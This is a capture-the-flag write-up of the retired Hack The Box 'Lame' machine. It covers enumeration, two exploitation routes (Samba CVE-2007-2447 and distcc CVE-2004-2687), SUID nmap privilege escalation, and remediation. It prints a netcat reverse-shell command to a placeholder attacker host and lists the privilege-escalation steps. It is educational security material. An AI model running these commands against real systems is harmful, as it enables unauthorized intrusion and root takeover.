# Hack The Box — Lame

> **Difficulty:** Easy &nbsp;·&nbsp; **OS:** Linux &nbsp;·&nbsp; **IP:** `10.129.22.59`
> One of the oldest boxes on HTB. I rooted it two different ways — the instant Samba win, and the longer distcc → SUID path that actually teaches you something.

---

## Table of contents

1. [Planning & Reconnaissance](#1-planning--reconnaissance)
2. [Scanning & Enumeration](#2-scanning--enumeration)
3. [Vulnerability Assessment](#3-vulnerability-assessment)
4. [Exploitation](#4-exploitation)
5. [Post-Exploitation](#5-post-exploitation)
6. [Reporting & Analysis](#6-reporting--analysis)
7. [Remediation & Retesting](#7-remediation--retesting)

---

## 1. Planning & Reconnaissance

Lame is old (2017), so my mindset going in is simple: old software means old, well-documented CVEs. The plan is the standard one — scan everything, enumerate each service one at a time, and don't tunnel-vision on the first scary-looking banner, because this box is famous for its bait.

Black box, no creds.

---

## 2. Scanning & Enumeration

### 2.1 Full port sweep

I start with every TCP port so nothing hides:

```bash
nmap -p- 10.129.22.59
```



Five ports: **21 (ftp), 22 (ssh), 139/445 (SMB), 3632 (distccd)**. Now I scan each one properly with `-A` to pull versions and run default scripts.

### 2.2 FTP — port 21

```bash
nmap -A -p21 10.129.22.59
```



**`vsftpd 2.3.4`**, and `ftp-anon` says **anonymous login allowed**. The version is the infamous one with the `:)` backdoor — every beginner's eye jumps straight here. I log in to see what's actually there:

```bash
ftp 10.129.22.59
# Name: anonymous   → 230 Login successful
ftp> ls
```



Login works but the directory is **empty**, and the vsftpd 2.3.4 backdoor doesn't trigger on Lame — it's a patched build HTB left as a trap. Noted and parked. *Lesson: a scary version string is not a working exploit.*

### 2.3 SSH — port 22

```bash
nmap -A -p22 10.129.22.59
```



**OpenSSH 4.7p1** — old, but not my way in without creds. Moving on.

### 2.4 SMB — ports 139/445

```bash
nmap -A -p139,445 10.129.22.59
```



This is the money detail: **`Samba smbd 3.0.20-Debian`**, hostname `lame`, and `message_signing: disabled (dangerous, but default)`. Version 3.0.20 is specific and old — exactly what I want.

I enumerate the shares. First I fat-finger a share that doesn't exist, which fails cleanly:

```bash
smbclient //10.129.22.59/anonymous
# tree connect failed: NT_STATUS_BAD_NETWORK_NAME
```



Then I list what's really there with a null session:

```bash
smbclient -L \\\\10.129.22.59\\
```



Shares: `print$`, **`tmp`** ("oh noes!"), `opt`, `IPC$`, `ADMIN$`. The writable `tmp` share matters for the manual Samba exploit.

### 2.5 distccd — port 3632

```bash
nmap -A -p3632 10.129.22.59
```



**`distccd v1 (GNU) 4.2.4`** — the distributed C compiler daemon, which has its own remote command-execution bug (CVE-2004-2687). So now I have *two* real candidates.

---

## 3. Vulnerability Assessment

| Service | Finding | CVE | Outcome |
|---------|---------|-----|---------|
| Samba 3.0.20 | "username map script" command injection | **CVE-2007-2447** | Direct RCE **as root** (smbd runs as root) |
| distccd v1 | Command execution via compiler job | **CVE-2004-2687** | RCE **as daemon** → needs privesc |
| vsftpd 2.3.4 | Backdoor (red herring) | — | Doesn't trigger — trap |

Two valid roads to a shell. I took both, because the distcc one forces you to learn local privilege escalation instead of being handed root for free.

---

## 4. Exploitation

### Path A — Samba usermap (the quick win)

CVE-2007-2447: when `username map script` is set, Samba passes the **username** field into a shell unsanitised. Inject shell metacharacters and they run as root. I set a listener and fire the exploit (Metasploit's `usermap_script`, or the standalone Python PoC — same bug):

```bash
nc -lvnp 4466
```

The username payload is the classic `` "/=`nohup <cmd>`" `` shape, pointing a reverse shell back at me. The listener catches it:



```
connect to [10.10.15.162] from (UNKNOWN) [10.129.22.59]
whoami
root
```

Instant **root**, no privesc needed — because smbd runs as root. Clean, but you don't learn much. So I did it the long way too.

### Path B — distcc (the educational one)

CVE-2004-2687 lets me smuggle a command into a distcc compile job. Listener first:

```bash
nc -lvnp 4466
```



Then the distcc exploit, telling it to connect a shell back to me:

```bash
python3 exploit.py -t <target ip> -p <target port> -c "nc <attacker ip> <attacker port> -e /bin/sh"
```



The shell lands — but this time I'm **not** root:



```
ls      → distcc_*.stdout, distccd_*.i, vmware-root ...
whoami  → daemon
cd /home ; pwd → /home
```

I'm the low-privileged `daemon` user. Now I actually have to escalate — which is the whole point of taking this path.

---

## 5. Post-Exploitation

From the `daemon` shell, the first privesc check I run is for SUID binaries — programs that execute with their owner's rights (root) regardless of who launches them:

```bash
find / -perm -u=s -type f 2>/dev/null
```



Scanning the list, one jumps out that should **never** be SUID-root: **`/usr/bin/nmap`**. Old Nmap (4.x, as on Lame) ships an `--interactive` mode with a shell escape. SUID + shell escape = root:

```bash
nmap --interactive
nmap> !sh
sh-3.2# whoami
root
```



`sh-3.2# whoami → root`. Escalated from `daemon` to **root** using nothing but a misconfigured SUID bit and a legacy Nmap feature (this is the classic GTFOBins `nmap` technique).

Both roads end at root — Path A in one step, Path B in three, but Path B is the one that builds the privesc muscle you'll actually need on harder boxes.

```bash
cat /root/root.txt
<root flag — redacted; yours will differ>
cat /home/makis/user.txt
<user flag — redacted; yours will differ>
```

---

## 6. Reporting & Analysis

Lame is a stack of end-of-life services, any one of which hands over the box:

- **Samba 3.0.20 (CVE-2007-2447)** — unauthenticated command injection through the SMB username field, executed as root.
- **distccd (CVE-2004-2687)** — unauthenticated command execution as `daemon`.
- **SUID `nmap`** — a misconfiguration that turns any low-priv shell into root via `--interactive`.
- **vsftpd 2.3.4** — a deliberate red herring; the backdoor is dead on this build.

The real lesson: **enumerate fully and match exact versions to exact CVEs**, and know your privesc primitives (SUID + GTFOBins) so a `daemon` shell doesn't stop you. Structured findings: see the Cap report for the full template layout.

---

## 7. Remediation & Retesting

| Finding | Fix | Retest |
|---------|-----|--------|
| CVE-2007-2447 (Samba usermap RCE) | Upgrade Samba to a supported release; remove `username map script` | Exploit fails, no shell |
| CVE-2004-2687 (distccd RCE) | Disable distccd or firewall port 3632 | Port closed / not exploitable |
| SUID bit on `/usr/bin/nmap` | `chmod u-s /usr/bin/nmap`; audit SUID binaries regularly | `find / -perm -u=s` shows no dangerous entries; `nmap --interactive` can't escalate |
| End-of-life OS & services | Rebuild on a supported OS; patch everything | Version scan shows supported builds |
| Anonymous FTP / null SMB | Disable anonymous access where not required | Anonymous login refused |

**Retest verdict (template):** with Samba upgraded, distccd disabled, and the SUID bit removed, every independent path to root is closed. Mark *Remediated — re-exploitation unsuccessful*.

---

### Tools used

| Phase | Tools |
|-------|-------|
| Recon & scanning | **Nmap** (`-p-`, `-A`, per-service scans) |
| SMB enumeration | **smbclient** |
| FTP enumeration | **ftp** client |
| Exploitation | **Metasploit** / Python PoC (`usermap_script`, CVE-2007-2447), **distcc exploit** (CVE-2004-2687), **netcat** |
| Privilege escalation | SUID hunt (`find`), **nmap `--interactive`** shell escape (GTFOBins) |

### References

- CVE-2007-2447 — Samba `username map script` command execution.
- CVE-2004-2687 — distccd remote command execution.
- GTFOBins — `nmap` SUID privilege escalation.
- HTB Lame (retired) — writeups permitted.

---

*Screenshots are from my own authorized lab session. Only test systems you're authorized to test.*
